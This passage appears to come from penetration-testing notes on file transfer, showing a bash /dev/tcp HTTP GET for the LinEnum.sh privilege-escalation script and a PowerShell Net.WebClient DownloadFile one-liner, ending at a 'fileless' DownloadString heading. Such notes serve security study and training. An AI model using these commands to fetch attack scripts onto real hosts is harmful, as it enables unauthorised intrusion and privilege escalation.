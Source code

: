 <figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **HTTP GET Request**

{% code overflow="wrap" %}
```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Print the Response**

{% code overflow="wrap" %}
```
cat <&3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell Web Downloads

### **DownloadFile Method**

{% code overflow="wrap" %}
```
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **DownloadString - Fileless Method**
